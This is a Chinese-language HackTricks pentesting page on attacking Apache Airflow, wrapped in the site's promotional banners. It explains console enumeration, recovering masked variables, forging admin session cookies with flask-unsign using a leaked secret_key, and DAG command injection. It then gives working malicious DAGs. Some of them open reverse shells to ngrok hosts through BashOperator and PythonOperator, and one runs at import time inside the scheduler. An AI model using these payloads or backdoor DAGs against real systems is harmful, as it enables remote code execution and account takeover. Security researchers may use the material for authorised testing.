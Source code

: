 # Apache Airflow安全性

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs收藏品](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

[**Apache Airflow**](https://airflow.apache.org) 用作**编排和调度数据管道或工作流**的平台。在数据管道的上下文中，“编排”一词表示安排、协调和管理来自各种来源的复杂数据工作流程的过程。这些经过编排的数据管道的主要目的是提供经过处理和可消费的数据集。这些数据集被广泛应用于各种应用程序，包括但不限于商业智能工具、数据科学和机器学习模型，所有这些都是大数据应用程序运行的基础。

基本上，Apache Airflow将允许您在**发生某事**（事件、cron）**时调度代码的执行**。

## 本地实验室

### Docker-Compose

您可以使用来自[**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml)的**docker-compose配置文件**启动完整的Apache Airflow Docker环境。（如果您使用的是MacOS，请确保为Docker VM分配至少6GB的RAM）。

### Minikube

运行Apache Airflow的一种简单方法是使用**minikube**运行它：
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow配置

Airflow可能会在其配置中存储**敏感信息**，或者您可能会发现存在弱配置：

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

在开始攻击Airflow之前，您应该了解**权限如何工作**：

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## 攻击

### Web控制台枚举

如果您可以访问**Web控制台**，您可能能够访问以下一些或所有信息：

* **变量**（自定义敏感信息可能存储在此处）
* **连接**（自定义敏感信息可能存储在此处）
* 在`http://<airflow>/connection/list/`中访问它们
* [**配置**](./#airflow-configuration)（敏感信息如**`secret_key`**和密码可能存储在此处）
* 列出**用户和角色**
* 每个DAG的**代码**（可能包含有趣的信息）

### 检索变量值

变量可以存储在Airflow中，以便**DAG**可以**访问**它们的值。这类似于其他平台的秘密。如果您有**足够的权限**，可以在GUI中访问它们`http://<airflow>/variable/list/`。\
默认情况下，Airflow将在GUI中显示变量的值，但是根据[**此**](https://marclamberti.com/blog/variables-with-apache-airflow/)，可以设置一个**变量列表**，其**值**将显示为**星号**在**GUI**中。

![](<../../.gitbook/assets/image (164).png>)

然而，这些**值**仍然可以通过**CLI**（需要访问DB）、**任意DAG**执行、**API**访问变量端点（需要激活API）甚至**GUI本身**来**检索**。\
要从GUI中访问这些值，只需**选择**要访问的变量，然后单击**操作 -> 导出**。\
另一种方法是通过**搜索过滤**执行**暴力破解**以获取**隐藏值**：

![](<../../.gitbook/assets/image (152).png>)

### 特权升级

如果**`expose_config`**配置设置为**True**，从**用户角色**及以上可以在**Web中读取**配置。在此配置中，会显示**`secret_key`**，这意味着任何具有此有效密钥的用户都可以**创建自己的已签名cookie以冒充任何其他用户帐户**。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG后门（在Airflow worker中执行远程代码执行）

如果您对保存DAG的位置具有**写入访问权限**，您可以**创建一个DAG**，该DAG将向您发送一个**反向 shell**。\
请注意，此反向 shell 将在**airflow worker容器**中执行：
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG后门（Airflow调度器中的RCE）

如果您将某些内容设置为在**代码的根目录中执行**，在撰写本文时，它将在将其放入DAG文件夹后的几秒钟后由调度器**执行**。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG创建

如果您设法**入侵DAG集群内的一台机器**，您可以在`dags/`文件夹中创建新的**DAG脚本**，它们将被**复制到DAG集群中的其他机器**。

### DAG代码注入

当您从GUI执行DAG时，可以向其**传递参数**。\
因此，如果DAG编写不当，可能会**容易受到命令注入攻击**。\
这就是在此CVE中发生的情况：[https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

您需要了解的一切，以**开始查找DAG中的命令注入**，就是**参数**是通过代码**`dag_run.conf.get("param_name")`**进行**访问**的。

此外，相同的漏洞可能会出现在**变量**中（请注意，如果具有足够的权限，您可以在GUI中**控制变量的值**）。变量是通过以下方式**访问**的：
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
如果它们例如被用在一个bash命令中，你可以执行命令注入。

<details>

<summary><strong>从零开始学习AWS黑客技术</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果你想看到你的**公司在HackTricks中被广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享你的黑客技巧。

</details>
